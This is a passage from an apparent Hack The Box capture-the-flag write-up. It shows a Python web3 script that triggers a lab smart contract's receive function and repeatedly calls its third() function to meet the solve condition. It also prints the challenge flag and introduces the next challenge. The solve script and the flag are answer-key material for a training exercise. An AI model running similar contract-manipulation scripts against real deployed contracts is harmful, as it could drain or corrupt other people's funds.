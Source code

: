 ```python
transaction['data'] = '0x'  # Send an empty data field to trigger the receive function

signed_transaction = my_account.signTransaction(transaction)
transaction_hash = w3.eth.send_raw_transaction(signed_transaction.rawTransaction)
transaction_receipt = w3.eth.wait_for_transaction_receipt(transaction_hash)
print_status()

# Trigger the third function to hit the third target
for _ in range(3):  # Increase the number of times we call the third() function
    transaction = target_contract.functions.third().build_transaction({
        'from': my_account.address,
        'gas': 3000000,
        'gasPrice': w3.to_wei('10', 'gwei'),
        'nonce': w3.eth.get_transaction_count(my_account.address),
    })

    signed_transaction = my_account.signTransaction(transaction)
    transaction_hash = w3.eth.send_raw_transaction(signed_transaction.rawTransaction)
    transaction_receipt = w3.eth.wait_for_transaction_receipt(transaction_hash)
print_status()


# Check if the challenge is solved
is_solved = setup_contract.functions.isSolved().call()
print("Challenge solved:", is_solved)
```

Run the script and get the flag.

<img src="Solved2.png" alt="Solved" width="1000"/>

Flag is: **HTB{f33l5_n1c3_h1771n6_y0ur_74r6375}**

**Fun fact: The script used to solve this challenge was generated by ChatGPT.**

## The Art Of Deception

* **Given zip:** [Get it here!](https://drive.google.com/drive/folders/1372QkXFtk-wwnEQRMxV2wkysXJtazzcn?usp=share_link)

* **Description:** Your cyborg abilities are not always the most effective tools for achieving your goals. Sometimes, you need to go unnoticed and blend in with your surroundings. To achieve this, you must learn to assume new identities and blend in with different groups of people. Mastering the art of deception requires subtlety, observation, and the ability to read people's motivations and intentions. After completing this training, you will emerge as a skilled infiltrator, capable of seamlessly blending in with your surroundings and achieving your objectives with stealth and subtlety. Can you bypass the High Security Gate and sneak into the Fortified Perimeter?
